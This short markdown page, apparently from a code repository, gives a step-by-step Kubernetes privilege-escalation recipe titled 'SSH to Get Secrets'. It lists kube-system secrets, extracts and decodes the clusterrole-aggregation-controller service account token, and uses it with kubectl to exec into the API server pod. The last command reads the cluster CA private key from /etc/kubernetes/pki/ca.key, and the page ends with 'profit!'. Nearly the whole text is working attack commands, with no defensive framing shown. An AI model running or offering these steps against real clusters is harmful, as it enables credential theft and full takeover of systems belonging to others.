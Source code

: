 ## SSH to Get Secrets

1. `kubectl get po -n kube-system` will fail (user doesn't have those rights)
2. `kubectl get secrets -n kube-system` will work and give you a list of available secrets
3. This will give you the clusterrole-aggregation-controller token `kubectl -n kube-system get secret clusterrole-aggregation-controller-token-[RAND] -o json`
4. base64 deocde the token field
5. Use the token as part of a kubectl command  `kubectl --token="[TOKEN]" get po -n kube-system` to get the API server pod name
6. get the key `kubectl --token="[TOKEN]" -n kube-system exec [API_SERVER_POD] cat /etc/kubernetes/pki/ca.key`
7. profit!